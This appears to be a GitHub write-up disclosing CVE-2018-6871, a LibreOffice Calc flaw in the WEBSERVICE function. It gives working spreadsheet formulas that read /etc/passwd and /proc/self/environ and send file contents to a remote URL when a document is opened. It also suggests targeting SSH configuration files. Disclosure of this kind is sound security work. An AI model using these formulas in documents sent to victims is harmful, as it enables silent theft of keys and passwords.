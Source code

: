 # Vulnerability description

![CVE-2018-6871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6871)

## First part

LibreOffice supports COM.MICROSOFT.WEBSERVICE function:

    https://support.office.com/en-us/article/webservice-function-0546a35a-ecc6-4739-aed7-c0b7ce1562c4

The function is required to obtain data by URL, usually used as:

    =FILTERXML(WEBSERVICE("http://api.openweathermap.org/data/2.5/forecast?q=Copenhagen,dk&mode=xml&units=metric");"number(/weatherdata/forecast/time[2]/temperature/@value)")

In original:

    For protocols that are not supported, such as ftp: // or file: //, WEBSERVICE returns the #VALUE! error value.

In LibreOffice, these restrictions are not implemented.

## Second part

By default the cells are not updated, but if you specify the cell type like ~error, then the cell will be updated when you open document.

# Exploitation

To read file you need just:

    =WEBSERVICE("/etc/passwd")

This function can also be used to send a file:

    =WEBSERVICE("http://localhost:6000/?q=" & WEBSERVICE("/etc/passwd"))

For successful operation, you need to send the files of the current user, so you need to retrieve current user home path.

    =MID(WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")) + 5, SEARCH(CHAR(0), WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")))-FIND("USER=",

Also you can parse other files too, like a ~/.ssh/config or something like that.

For other than LibreOffice Calc formats you just need embed calc object to other document (I checked it works).

# Impact

It is easy to send any files with keys, passwords and anything else. 100% success rate, absolutely silent, affect LibreOffice prior to 5.4.5/6.0.1 in all operation systems (GNU/Linux, MS Windows, macOS etc.) and may be embedded in almost all formats supporting by LO. 

# Acknowledgment

Vulnerability was parallely found by me (@jollheef) and Ronnie Goodrich && Andrew Krasichkov according to LibreOffice team notes.
